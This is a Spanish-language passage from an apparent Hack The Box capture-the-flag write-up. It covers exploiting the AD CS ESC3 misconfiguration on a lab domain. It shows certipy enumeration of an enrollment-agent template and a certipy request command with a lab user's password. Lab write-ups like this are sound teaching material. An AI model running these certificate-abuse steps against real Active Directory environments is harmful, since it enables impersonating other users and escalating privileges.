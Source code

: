 > `Certificate Request Agent` (Agente de solicitud de certificados) es una **entidad o cuenta de usuario** designada para gestionar solicitudes de certificados digitales en nombre de otros usuarios o dispositivos en una infraestructura de clave pública (PKI).
{: .notice--info}

En este contexto `Delegated-CRA` posee el uso de clave extendida (`EKU`) con el valor `Certificate Request Agent`, utilizando esta plantilla podríamos generar un certificado en nombre de otros usuarios.

La explotación de `ESC3` está determinada tanto por la plantilla que incluye el EKU `Certificate Request Agent` como otra plantilla que permita la inscripción de Agentes 

~~~ bash
Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
...
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA 
~~~

Solicitaremos un certificado para el usuario `lion.sk` utilizando la plantilla `Delegated-CRA`

~~~ bash
certipy req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -ca Certificate-LTD-CA -template Delegated-CRA -dc-ip 10.10.11.71            
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 26
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'
~~~

Notaremos que las plantillas que admiten autenticación (como `User`, `Machine`, `UserSignature`), se encuentran deshabilitadas. Encontraremos la plantilla `SignedUser`,  que permite autenticación
